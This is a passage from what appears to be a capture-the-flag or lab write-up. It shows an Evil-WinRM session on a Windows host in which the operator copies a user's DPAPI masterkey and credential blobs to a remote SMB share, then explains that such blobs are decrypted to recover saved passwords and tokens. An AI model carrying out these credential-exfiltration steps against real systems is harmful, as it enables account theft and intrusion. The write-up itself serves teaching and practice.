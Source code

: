 ```
~$ *Evil-WinRM* PS C:\Users\steph.cooper> cd Appdata\Roaming\Microsoft\Protect
*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Protect> dir

    Directory: C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Protect

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-         5/29/2025   2:44 PM                S-1-5-21-1487982659-1829050783-2281216199-1107

*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Protect> copy "C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" "\<IP>\share\steph-masterkey"

*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft> dir

    Directory: C:\Users\steph.cooper\Appdata\Roaming\Microsoft

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-          3/8/2025   7:53 AM                Credentials
d---s-          3/8/2025   7:40 AM                Crypto
d-----          3/8/2025   7:40 AM                Internet Explorer
d-----          3/8/2025   7:40 AM                Network
d---s-          3/8/2025   7:40 AM                Protect
d-----          5/8/2021   1:20 AM                Spelling
d---s-         2/23/2025   2:35 PM                SystemCertificates
d-----         2/23/2025   2:36 PM                Vault
d-----          3/8/2025   7:52 AM                Windows


*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft> cd Credentials
*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Credentials> dir -h

    Directory: C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9

*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Credentials> copy C8D69EBE9A43E9DEBF6B5FBD48B521B9 "\<IP>\share\steph-credential"
*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Credentials>
```

<p class="indent-paragraph">
After identifying two DPAPI-related blobs under <code>C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect</code> (the <code>masterkey blob</code>) and <code>Microsoft\Credentials</code> (the <code>credential blob</code>), we initiated a decryption process. These binary blobs store sensitive user data encrypted using Windows Data Protection API (DPAPI), and are commonly extracted in post-exploitation scenarios to retrieve secrets such as saved passwords and tokens.
</p>
